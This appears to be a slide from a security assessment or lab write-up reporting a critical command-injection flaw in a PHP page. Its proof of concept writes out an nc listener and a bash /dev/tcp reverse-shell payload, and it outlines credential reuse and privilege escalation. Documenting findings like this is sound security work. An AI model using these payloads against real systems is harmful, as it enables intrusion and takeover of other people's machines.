

# Cont..
CVSS Score:  9.8 (Critical)
CVSS String: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
Reference:
https://owasp.org/www-community/attacks/Command_Injection
https://highon.coffee/blog/reverse-shell-cheat-sheet/
Proof of Concept (PoC):
Set up a listener on the attacker's machine:
    nc -nlvp 9001
Trigger the reverse shell:
    http://127.0.0.1:9999/index.php?cmd=bash -c 'bash -i >& /dev/tcp/192.168.139.139/9001 0>&1'
Process Analysis:
SSH access granted using reused credentials
Port 9999 exposed via SSH tunnel
Identified RCE in index.php?cmd=
Crafted and sent reverse shell payload
Attacker received a full shell on their system
Used shell for command execution and privilege escalation